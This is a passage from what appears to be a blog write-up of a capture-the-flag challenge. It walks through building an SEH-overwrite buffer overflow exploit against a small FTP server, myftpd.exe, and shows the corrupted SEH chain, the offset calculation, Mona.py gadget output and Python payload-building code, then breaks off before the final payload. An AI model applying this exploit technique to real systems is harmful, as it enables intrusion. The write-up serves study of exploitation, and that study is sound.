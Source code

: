 And we also see the SEH chain looking something like this:

``` text SEH Chain
SEH chain of thread 000008B0
Address    SE handler
021FC57C   ntdll.77DEB4AD
021FFFC4   41414141              <--- juicy!
41414141   *** CORRUPT ENTRY ***
```

The next step is to do the usual `pattern_create.rb`/`pattern_offset.rb` dance to determine the offsets of the `SEH` and `NSEH` addresses. You all know how to do this by now, so I'll skip to it and show you:

``` bash SEH offset
$ pattern_offset.rb 41386c41
[*] Exact match at offset 354
```

So the SEH offset is `354`, which makes the NSEH offset `350`. Next we need an address that we can write to SEH, and this address needs to contain the usual chain of `POP # POP # RET` instructions which returns control to the NSEH location. Using Mona.py we find:

``` text Mona.py output
0BADF00D   [+] Results :
00403723     0x00403723 : pop ebx # pop ebp # ret  | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [myftpd.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\OJ\Desktop\myftpd.exe)
00403A8A     0x00403a8a : pop esi # pop ebp # ret  | startnull {PAGE_EXECUTE_READ} [myftpd.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\OJ\Desktop\myftpd.exe)
00403AF5     0x00403af5 : pop esi # pop ebp # ret  | startnull {PAGE_EXECUTE_READ} [myftpd.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\OJ\Desktop\myftpd.exe)
00403B4F     0x00403b4f : pop esi # pop ebp # ret  | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [myftpd.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\OJ\Desktop\myftpd.exe)
004011CB     0x004011cb : pop ebx # pop ebp # ret 0x04 | startnull {PAGE_EXECUTE_READ} [myftpd.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\OJ\Desktop\myftpd.exe)
0BADF00D       Found a total of 5 pointers
```

To minimise potential bad character damage I went with `0x00403723`. This is the value that we need to write to the SEH location. In the 4 bytes before that we'll write 4 x `CC` bytes (breakpoints) so that we can validate that we've gained control. So our payload looks like:

``` python Payload generation
seh_offset = 354
nseh_offset = seh_offset - 4
payload  = "A" * nseh_offset
payload += "\xCC" * 4
payload += struct.pack("<L", 0x00403723)
```

You'll notice I'm not giving as much away as I did in the previous post. I'll instead save it for the big reveal at the end.

If we run this we get an access violation, which again we hit `SHIFT+F9` to pass to the application and we see this in Immunity:


  [previous post]: /posts/idsecconf-2013-myftpd-challenge/
  [SEH overwrites]: https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
  [ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization